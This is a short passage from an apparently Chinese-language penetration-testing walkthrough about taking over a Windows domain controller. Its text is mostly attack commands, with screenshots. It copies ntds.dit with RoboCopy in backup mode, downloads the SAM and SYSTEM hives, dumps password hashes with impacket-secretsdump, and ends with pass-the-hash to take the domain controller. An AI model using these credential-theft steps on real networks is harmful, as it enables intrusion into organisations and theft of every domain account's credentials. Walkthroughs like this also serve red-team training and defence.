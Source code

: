 [![](assets/1706233449-256ea471fdc94596c5d8d3d8fb5f8755.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143959-651a13c6-ba83-1.png)

复制到当前目录

```bash
RoboCopy /b z:\windows\ntds . ntds.dit
```

[![](assets/1706233449-21b5b934740607c29adf68c7dc53b644.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124144005-68baf950-ba83-1.png)

下载 sam 和 system

[![](assets/1706233449-3feaf16830c4279e963b3392424b7e2f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124144011-6c333a3e-ba83-1.png)

接下来进行解密

```bash
impacket-secretsdump -ntds ntds.dit -system system local
```

[![](assets/1706233449-643c7195c2ba13b2708bd8c4246ad862.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124144017-701904b2-ba83-1.png)

PTH 拿下域控

[![](assets/1706233449-c03e4ed3b1e3f441bd13c10fe8daa0fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124144023-73808ee0-ba83-1.png)
